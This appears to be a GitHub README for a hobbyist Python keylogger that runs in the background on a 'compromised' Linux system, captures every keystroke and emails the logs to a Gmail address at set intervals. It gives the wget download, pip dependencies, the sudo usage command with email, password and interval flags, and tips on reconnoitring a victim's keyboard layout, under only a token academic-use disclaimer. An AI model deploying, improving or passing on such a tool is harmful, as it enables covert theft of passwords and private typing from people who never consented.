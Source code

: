 # Keylogger
Test keylogger, trash quality right now

## Description
Want a terrible keylogger? Look no further!

This keylogger runs in the background and copies all the keystrokes a user inputs. After an interval, it then emails these keystrokes to the gmail given.

The logger is heavily based on the logger written by [x4nth055](https://github.com/x4nth055). 

I added the ability to feed in an email address and password, rather than hardcode it in, the ability to feed in how long you want the script to report back to you, as well as an experimental attempt to report special chracter key strokes.

### Prerequisites

This logger has been built on a number of assumptions:
* You've can run sudo on a comprimised linux system
* You have access to Gmail, and have turned on 'less secure app access' in your security settings

You'll need to install the following pip3 modules, if you don't already have them:
```bash
pip3 install keyboard
pip3 install argparse
```
### Installation
```bash
wget https://raw.githubusercontent.com/Purp1eW0lf/Keylogger/main/logger.py
```
### Usage
This logger requires you to feed your gmail email and password. I would create a throwaway account for this. 

You can also optionally feed the script the length of time you want it to wait and send you an email of the keystrokes. The default waiting period is 60 seconds, should you chooe not to input length (the -l flag)

```bash
sudo python3 logger.py -e gmail@Address -p Password -l 120
```
#### Help Image
![Help Image](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/HELP.jpg)

#### Usage Image
![Usage image](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/Example%20Use.jpg)

#### Email Report Image
![Email report](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/Logged%20Email.jpg)

### Known Issues
Sometimes the emails don't send at the regular interval, but will come in batch and you'll get a handful at once
* Fix: I'm not clever enough to figure out why yet.

The script tries to tranpose special characters by examining is the user presses the SHIFT key and a corresponding number. This is majorly flawed, however, as it is entirely keyboard dependent. It is therefore trash. The current script is based on a Macbook keyboard. 
* Fix: If you're able to do some recon on the user's keyboard, you can change the section mid-script and reassign the key values for better accuracy. 

### Contact

If you notice a way the script can be improved you're welcome to make requests and raise issues. 
You're also welcome to slide in my Twitter DMs and tell me how shit the logger is.
[@Purp1eW0lf](https://twitter.com/Purp1eW0lf)

#### License
This tool is free to use. Do not use for illegal purposes. Only use for academic purposes, on computers that you have permission to access. 
